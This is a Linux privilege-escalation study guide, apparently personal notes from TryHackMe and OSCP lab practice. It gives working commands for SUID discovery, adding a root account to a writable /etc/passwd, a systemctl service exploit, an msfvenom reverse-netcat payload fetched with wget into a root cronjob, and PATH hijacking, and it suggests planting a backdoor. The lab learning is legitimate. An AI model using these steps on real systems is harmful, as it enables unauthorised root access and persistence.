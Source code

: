 ## Privilege Escalation - Overview

-----

[Back to Table of Contents](../cysec)

> Horizontal and vertical privilege escalation:
 - horizontal privilege escalation - access pivot from users within the same permission scope
 - vertical privilege escalation - access pivot from user with lower permissions to user with higher permissions

Sometimes horizontal privilege escalation is necessary before executing vertical escalation. \
For example, if user1 (your foothold) has no misconfigurations or exploitable escalations to obtain root or another more highly privileged user, then it might be necessary to horizontally escalate to user2, who happens to have an exploitable binary with a SUID bit or a cronjob running with root permissions (or any other potential method). 

Ie. low privilege 1 -> low privilege 2 -> high privilege

>>## Useful Tools/Resources
> ### Informational Resources
> - [PayloadsAllTheThings - Privilege Escalation Overview](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#tools)
> - [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)    
> - [ A guide to Linux Privilege Escalation](https://payatu.com/guide-linux-privilege-escalation)
>### PrivEsc Automation, Scripts, and General Resources
> - [LinEnum](https://github.com/rebootuser/LinEnum) : Enumeration of linux systems for common privesc misconfigurations and potential exploits
> - LinPEAS   
> - LinuxSmartEnumeration   
> - BeRoot  
 > - [GTFOBins](https://gtfobins.github.io/) : Extremely useful collection of common Linux binaries and example privesc exploitation methods   


----- 
### Commands Relevant to PrivEsc
```
ls -lah

find . -type f -perm /4000 or /2000

sudo -l

vim --> :!sh
```
---
## SUID/SGID:
```
find . -user root -perm /x000
```

- 4000 is the permission flag for SUID
- 2000 is the permission flag for SGID
- ---

## Writable /etc/passwd:
    
Format of etc/passwd:	 
```
user:password_hash:UID:GID:root:/root:/bin/bash \
```

Since the passwords are not stored in plaintext, they first need to be hashed. 
This can be done simply by using openssl.

```
openssl passwd -1 -salt [thesalt] [thepassword]
```

Now, to tie it all together, the line to write into /etc/passwd, with user "new" and password "123" would be:

```
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```
---


## systemctl
Systemctl is a part of the linux filesystem which interacts with systemd and is responsible for services. Systemctl is sometimes misconfigured, and can be exploited if it has SUID or SUDO privileges. 

The systemctl privesc route is seen in the THM machine, "vulniversity"; after getting a webshell, the task is to privesc into root. 

Tying in concepts from above, the first thing to do is to find what potential misconfigurations or potentially exploitable binaries exist.
```
find . -user root -perm /4000
```
In this case, the results show that the systemctl binary has the s bit. 
Then, searching systemctl on GTFOBins reveals an example payload/exploit:
```
TF=$(mktemp).service

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF

```
Basically, this creates a temporary file, TF, in the temp directory, a directory which we have write permissions as a low-privileged user.
After initializing the temporary service file, the exploit uses the echo command to write the service functions, line by line,
avoiding the need to use touch or other means , which we do not have permissions for. 

```bash
./systemctl link $TF
./systemctl enable --now $TF
```

After writing the new service configuration file, the service must then be linked and enabled via the vulnerable systemctl binary.

In this case, however, the configuration must be tailored for the specific task. The example provides a command to write out the permissions
via the id command to a file in the tmp directory, but the task is to read the root flag in the root directory. 

There are multiple avenues of attack that can be used to accomplish this, and in the real world executing a reverse shell would
and using a new netcat listener would likely be the most effective, however that is not necessary in this case.

To stay within the scope of the task and be precise, I simply created a command that would cp the root flag to a new file in the tmp directory.

```
ExecStart=/bin/sh -c "cp /root/root.txt /tmp/rootflag.txt"
```
While this use case is specific, the concept can be applied to complete most tasks if faced with a systemctl privesc route. 

----

## Crontab Exploitation
Cronjobs are automated tasks within a Linux system. If a cronjob is run with root privileges, it is possible to leverage these permissions by writing to the cronjob, and thus having that added command executed as root, the next time the cronjob runs. 

```
cat /etc/crontab
```
Format:

```
#  m   h dom mon dow user  command
```

Exploiting a crontab vulnerability is similar in concept to the systemctl privesc method.

This method is used when a vulnerable cronjob is found -- this may mean that a cronjob is configured to run a
process/command with root privileges while the relevant user can write to the cronjob. 
Using echo, a payload or command can be written to the cronjob, and when it is executed, the payload will be executed
with root privileges. 

For example, if a cronjob called "scanner" is found to be running every hour and with root privileges,
an attacker can write a custom command or create a payload using msfvenom, and then write that payload to the cronjob:
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[ip] lport=[port] R > payload_name

```
The payload is created on the local machine, but it needs to get onto the target machine. This can be done multiple ways,
but a simple method is to create a local webserver:

```bash
python3 -m http.server 80

```
and then wget the payload onto the target machine, using the low-privilege shell that was obtained earlier.

```bash
cd /tmp

wget http://[ip]/payload_name
```
Finally, echo can be used to write the payload into the cronjob:
```
echo payload > /Documents/scanner.sh
```
Once the cronjob is initialized, the payload will be executed, and we will have a root shell. Just like with the systemctl
privesc above, this can be tailored to the needs of the task. If precision and scope is necessary, 
a payload can be created that will do just the required task and nothing more, for example, write a backdoor into the system
for later use. 


----
## PATH Variable
```
echo $PATH
```
Privilege escalation via exploiting the path variable happens when an attacker is able to create an "evil twin" of the actual binary,
and redirect that binary to the new, imitation one, with malicious code. 

In the TryHackMe Linux Privilege Escalation module, the vulnerable machine has a misconfiguration, where a script found on the users
desktop is actually executing the 'ls' command. 

Now that a target script is identified in which can be potentially imitated, the next step is to find a writable directory where we can create the imitation
executable with our payload. 


We can try /tmp, or simply search:
```bash
find / -writable -type d 

```
In this case, /tmp will be used, so after cd to /tmp, echo will once again be used to create the imitation binary/payload.
(and of course, allow execution)
```bash
echo "/bin/bash" > ls

chmod +x ls
```
Now that the imitation payload is created, which contains the command to initilize a bash shell, the payload must
be exported to the path variable. 
```bash
export PATH=/tmp:$PATH
```
To test if the exploit has worked, the targeted command can be run; in this case, 'ls' will no longer return the directory contents (/bin/ls will, if needed).

Finally, return to the original target script, and execute it. This will now execute the imitation payload and 
open a root shell. 

---

